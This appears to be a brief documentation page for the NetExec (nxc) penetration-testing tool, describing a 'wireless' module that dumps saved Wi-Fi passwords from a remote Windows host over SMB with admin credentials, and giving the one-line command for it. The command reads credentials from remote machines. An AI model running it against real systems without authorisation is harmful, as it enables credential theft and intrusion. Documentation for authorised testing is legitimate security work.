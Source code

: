 # Dump WIFI password

Get the WIFI password register in Windows

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

```
nxc smb <ip> -u user -p pass -M wireless
```
